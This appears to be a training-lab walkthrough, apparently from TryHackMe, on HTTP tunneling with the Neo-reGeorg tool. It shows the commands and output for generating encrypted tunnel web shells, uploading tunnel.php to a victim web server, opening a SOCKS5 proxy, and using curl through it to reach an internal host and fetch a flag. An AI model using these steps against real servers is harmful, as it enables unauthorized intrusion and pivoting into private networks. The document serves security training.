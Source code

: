 # HTTP tunneling

|                                                 ![HTTP tunnel](/_static/images/http-tunnel.png)                                                 |
|:-----------------------------------------------------------------------------------------------------------------------------------------------:|
| With tunneling over the HTTP protocol technique other protocols are encapsulated and <br>data can be sent back and forth via the HTTP protocol. |

Use the [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) tool to create a communication channel to access the 
internal network devices:

```text
root@kali:# cd /opt
root@kali:# ls
firmware-mod-kit  kerbrute   Neo-reGeorg-master.zip  Teeth
impacket          microsoft  nessus                  xplico

root@kali:# unzip Neo-reGeorg-master.zip 
Archive:  Neo-reGeorg-master.zip
a9495cabdd59dc1df645742c99c2c7a02702dbf8
   creating: Neo-reGeorg-master/
  inflating: Neo-reGeorg-master/.gitignore  
  inflating: Neo-reGeorg-master/CHANGELOG-en.md  
  inflating: Neo-reGeorg-master/CHANGELOG.md  
  inflating: Neo-reGeorg-master/LICENSE  
  inflating: Neo-reGeorg-master/README-en.md  
  inflating: Neo-reGeorg-master/README.md  
  inflating: Neo-reGeorg-master/neoreg.py  
   creating: Neo-reGeorg-master/templates/
  inflating: Neo-reGeorg-master/templates/NeoreGeorg.java  
  inflating: Neo-reGeorg-master/templates/tunnel.ashx  
  inflating: Neo-reGeorg-master/templates/tunnel.aspx  
  inflating: Neo-reGeorg-master/templates/tunnel.jsp  
  inflating: Neo-reGeorg-master/templates/tunnel.jspx  
  inflating: Neo-reGeorg-master/templates/tunnel.php  

root@kali:# cd Neo-reGeorg-master 
                                                                                
root@kali:# ls
CHANGELOG-en.md  LICENSE    README-en.md  templates
CHANGELOG.md     neoreg.py  README.md
```

Generate an encrypted client file to upload to the victim web server:

    root@kali:# python3 neoreg.py generate -k thm

          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.1
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

    [+] Mkdir a directory: neoreg_servers
    [+] Create neoreg server files:
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx

The command generates encrypted tunneling clients with thm key in the `neoreg_servers/` directory. There are many 
extensions, including for PHP, ASPX, JSP, etc. 

To access the uploader machine, visit `https://LAB_WEB_URL.p.thmlabs.com/uploader`:

|                                       ![upload](/_static/images/upload-exfiltr.png)                                       |
|:-------------------------------------------------------------------------------------------------------------------------:|
| Upload the `tunnel.php` file via the uploader machine. <br>Use `admin` as the key to allow upload into `uploader.thm.com` |

Use `neoreg.py` to connect to the client, provide the key to decrypt the tunneling client, and the URL to the 
`tunnel.php` just uploaded on the uploader machine.

    root@kali:# python3 neoreg.py -k thm -u http://10.10.177.27/uploader/files/tunnel.php


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.1
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

    +------------------------------------------------------------------------+
      Log Level set to [ERROR]
      Starting SOCKS5 server [127.0.0.1:1080]
      Tunnel at:
        http://10.10.177.27/uploader/files/tunnel.php
    +------------------------------------------------------------------------+

Ready to use the tunnel connection as a proxy binds on our local machine, 127.0.0.1, on port 1080:
 
    root@kali:# curl --socks5 127.0.0.1:1080 http://172.20.0.120:80
    <p><a href="/flag">Get Your Flag!</a></p>
                                                                                
    root@kali:# curl --socks5 127.0.0.1:1080 http://172.20.0.120:80/flag

Done.
